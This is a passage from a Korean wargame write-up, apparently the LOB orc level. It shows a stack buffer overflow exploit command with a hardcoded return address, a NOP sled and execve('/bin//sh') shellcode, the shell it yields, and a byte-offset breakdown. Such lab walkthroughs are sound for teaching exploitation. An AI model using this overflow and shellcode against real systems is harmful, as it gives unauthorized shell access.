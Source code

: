 ```
[goblin@localhost goblin]$ ./orc `python -c 'print "A"*44+"\x3f\xfc\xff\xbf"'` `python -c 'print "\x90"*60+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA?
bash$
```
는 bash shell이 잘 떨어지는군요? ㅋㅋㅋ개꿀  
이제 원래 프로그램이 있던곳으로 되돌아가서 다시 똑같이 실행시켜주면~~  
<br>

```
[goblin@localhost goblin]$ bash2
[goblin@localhost goblin]$ ./orc `python -c 'print "A"*44+"\x3f\xfc\xff\xbf"'` `python -c 'print "\x90"*60+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA?
bash$ my-pass
euid = 504
flag
bash$     
```

끝났지롱! ★
<br>

**(+) 추가설명**
```
A*44 == argv[1][~43]
\x3f == argv[1][44]
\xfc == argv[1][45]
\xff == argv[1][46]
\xbf == argv[1][47]
```
- index는 0부터 시작합니다요 ㄲㄲ..
